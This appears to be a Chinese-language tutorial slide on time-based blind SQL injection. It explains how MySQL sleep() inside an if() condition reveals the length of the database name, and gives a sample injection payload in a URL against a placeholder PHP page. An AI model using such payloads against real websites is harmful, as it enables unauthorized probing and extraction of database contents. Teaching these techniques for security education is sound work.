

SQL盲注攻击
时间盲注
如果数据库名字长度为8，则sleep1秒，否则返回0
eg. Select sleep(if((select length(database())=8),1,0));
等价于
Select if((select length(database())=8), sleep (1),0);
举例：判断当前数据库库名的长度

如果数据库库名长度大于等于8，则mysql查询休眠5秒，否则查询1。语句：if(length(database())>=8,sleep(5),1)

URL:http://XXXX.php?id='1' and if(length(database())>=8,sleep(5),1)--+